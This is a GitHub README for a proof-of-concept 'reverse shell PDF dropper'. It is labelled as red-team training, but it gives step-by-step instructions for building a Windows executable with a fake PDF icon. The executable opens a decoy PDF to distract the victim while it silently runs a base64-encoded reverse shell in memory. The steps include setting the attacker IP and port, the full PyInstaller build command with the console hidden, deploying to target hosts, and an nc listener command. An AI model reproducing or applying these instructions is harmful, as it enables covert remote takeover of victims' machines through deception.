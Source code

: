 # reverse-shell-pdf-dropper
A proof-of-concept reverse shell dropper that opens a legit PDF while executing a base64-encoded payload. For red-team training only.


# 🐚 Reverse Shell PDF Dropper (PoC)

A proof-of-concept **reverse shell dropper** built with Python and PyInstaller.  
It silently executes a base64-encoded reverse shell payload while opening a real PDF document to distract the user.

> ⚠️ **This tool is for educational and red-team lab use only.**

---

## 🧩 Features

- 🔥 Executes a reverse shell payload **in memory**
- 📄 Opens a **legitimate PDF file** to distract the victim
- 🧬 Payload is embedded as **base64**
- 🔐 Uses `PyInstaller` to generate a single `.exe` file with a **PDF icon**

---

## 📁 Files in This Project

| File           | Description                                           |
|----------------|-------------------------------------------------------|
| `loader.py`    | Main dropper: decodes & runs the payload, opens PDF  |
| `payload.py`   | Python reverse shell payload                         |
| `test.pdf`     | Legit document shown to the victim                   |
| `pdf.ico`      | Fake PDF icon (optional)                             |
| `payload.b64`  | (Generated later — see below)                        |

---

## ⚙️ How to Use

### 1. Customize Your Payload

Edit `payload.py` and set your **attacker IP and port**:

```python
host = "YOUR_IP"
port = 4444
```

### 2. Generate payload.b64

From your terminal or PowerShell:

base64 payload.py > payload.b64

✅ This will create a file named payload.b64 in the same folder.

### 3. Build the Executable with PyInstaller

pyinstaller --onefile --noconsole --icon=pdf.ico --add-data "payload.b64;." --add-data "test.pdf;." loader.py

A new standalone executable will be created in the dist/ directory:

dist/loader.exe

✅ This file can now be deployed to any host within the target network.

🧪 To test it:
Start a listener on your attacker machine:

  nc -lvnp 4444

Run loader.exe on the target machine.

If successful:

The victim sees a legitimate PDF (test.pdf)
A reverse shell is silently established back to your listener
